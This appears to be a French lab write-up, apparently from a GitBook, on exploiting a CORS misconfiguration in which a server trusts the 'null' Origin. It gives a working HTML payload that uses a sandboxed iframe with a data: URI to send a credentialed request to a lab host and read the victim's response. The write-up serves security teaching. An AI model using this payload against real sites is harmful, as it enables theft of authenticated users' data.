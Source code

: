 # Application Trust "null" Origin

Le dernier challenge est un peu plus difficile puisque le serveur n'accepte plus que les requêtes provenant d'une origine `null` :

![](../../../.gitbook/assets/94f422bb80385d1a5b9299dda3adfde6.png)

La solution pour avoir un entête `Origin` possédant une valeur `null` est d'utiliser une iframe comme ceci :

```markup
<html>
  <head>
    <title>CORS vulnerable lab - Null Origin</title>
  </head>

  <body>
    <iframe sandbox="allow-scripts" src="data:text/html,
      <script>
        var xhr=new XMLHttpRequest();
        xhr.open('GET', 'http://192.168.56.184/null_origin.php', true);
        xhr.withCredentials = true;
        xhr.onreadystatechange = function() {
          if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
            console.log(xhr.response);
          }}; 
        xhr.send();
      </script>">
    </iframe>
  </body>
</html>
```

La réponse s'affiche bien dans la console lors de la visite de la victime :

![](../../../.gitbook/assets/67f1acf0c5b12562ad333025520175b5.png)

En ce qui concerne la requête/réponse, voici les valeur des différents entêtes :

![](../../../.gitbook/assets/ad5024a52179afa1d2b6595f3ed29ee3.png)





